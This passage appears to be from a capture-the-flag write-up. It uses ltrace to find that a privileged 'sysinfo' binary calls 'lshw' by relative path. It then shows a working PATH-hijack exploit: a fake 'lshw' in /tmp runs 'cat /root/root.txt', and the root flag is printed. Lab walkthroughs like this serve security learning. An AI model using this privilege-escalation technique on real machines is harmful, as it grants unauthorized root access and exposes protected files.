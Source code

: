 
We use `ltrace` (also already on the box) to see the binary calls and quickly
saw a call to `lshw` using a relative path.

    :::text
    theseus@ubuntu:/var/www/Magic/images/uploads$ ltrace /bin/sysinfo
    ltrace /bin/sysinfo
    _ZNSt8ios_base4InitC1Ev(0x55b09400e131, 0xffff, 0x7ffef3bfc788, 128) = 0
    __cxa_atexit(0x7f40c551fa40, 0x55b09400e131, 0x55b09400e008, 6) = 0
    setuid(0)                                        = -1
    setgid(0)                                        = -1
    _ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc(0x55b09400e020, 0x55b093e0c8f8, -160, 0) = 0x55b09400e020
    _ZNSolsEPFRSoS_E(0x55b09400e020, 0x7f40c558f870, 0x55b09400e020, 0x55b093e0c92d====================Hardware Info====================
    ) = 0x55b09400e020
    _ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC1Ev(0x7ffef3bfc650, 0x55b093e0c92e, 0, 2880) = 0x7ffef3bfc660
    popen("lshw -short", "r")                        = 0x55b095436280
    fgets(WARNING: you should run this program as super-user.
    "H/W path     Device  Class      "..., 128, 0x563a9c8f6280)                                                                                = 0x7ffe1eb20b70
    _ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEpLEPKc(0x7ffe1eb20c20, 0x7ffe1eb20b70, 0x7ffe1eb20b70, 0x6974706972637365)                  = 0x7ffe1eb20c20
    fgets("================================"..., 128, 0x563a9c8f6280)                                                                                = 0x7ffe1eb20b70
    _ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEpLEPKc(0x7ffe1eb20c20, 0x7ffe1eb20b70, 0x7ffe1eb20b70, 0x3d3d3d3d3d3d3d3d)                  = 0x7ffe1eb20c20

So we simply exploit this `PATH` vulnerability and get the root flag.

    :::text
    theseus@ubuntu:/var/www/Magic/images/uploads$ cd /tmp/
    cd /tmp/
    theseus@ubuntu:/tmp$ mkdir ioio
    mkdir ioio
    theseus@ubuntu:/tmp$ cd ioio
    cd ioio
    theseus@ubuntu:/tmp/ioio$ echo 'cat /root/root.txt' > lshw
    echo 'cat /root/root.txt' > lshw
    theseus@ubuntu:/tmp/ioio$ PATH=./:$PATH
    PATH=./:$PATH
    theseus@ubuntu:/tmp/ioio$ chmod +x lshw
    chmod +x lshw
    theseus@ubuntu:/tmp/ioio$ sysinfo
    sysinfo
    ====================Hardware Info====================
    a06f37dc581bc81a9e688040af40daaf

    ====================Disk Info====================
    Disk /dev/loop0: 44.9 MiB, 47063040 bytes, 91920 sectors
    Units: sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
